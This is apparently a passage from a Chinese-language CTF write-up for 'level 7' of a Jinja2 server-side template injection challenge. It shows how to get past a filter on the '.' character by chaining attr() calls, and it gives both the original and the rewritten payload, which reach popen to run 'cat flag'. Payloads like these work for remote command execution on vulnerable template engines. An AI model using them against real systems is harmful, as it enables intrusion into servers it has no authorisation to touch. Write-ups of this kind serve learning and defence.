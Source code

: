 ### [level 7](#toc_level-7)

[![在这里插入图片描述](assets/1698900310-e6b33d2dfcb667dd0d7eef16531ba3b0.png)](https://storage.tttang.com/media/attachment/2022/08/14/ae13693f-816d-493f-8f48-4bf7f4d2d439.png)  
题目描述过滤了`.`，这个时候就需要用到过滤器`attr()`了，上一关已经提及并简单使用过，这里再用代码复述一下其作用

```plain
().__class__=()|attr(__class__)
```

因此这里的话我们只需要将`.`用`attr()`进行替换即可  
原 payload

```plain
{{().__class__.__base__.__subclasses__()[133].__init__.__globals__['popen']('cat flag').read()}}
```

修改过后的 payload 如下

```plain
code={{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(133)|attr("__init__")|attr("__globals__")|attr("__getitem__")('popen')('cat flag')|attr('read')()}}
```

[![在这里插入图片描述](assets/1698900310-9d8af602240057f99ba3fdd4900119ed.png)](https://storage.tttang.com/media/attachment/2022/08/14/f888e9a3-b950-486b-a649-43fbe3cff2b7.png)
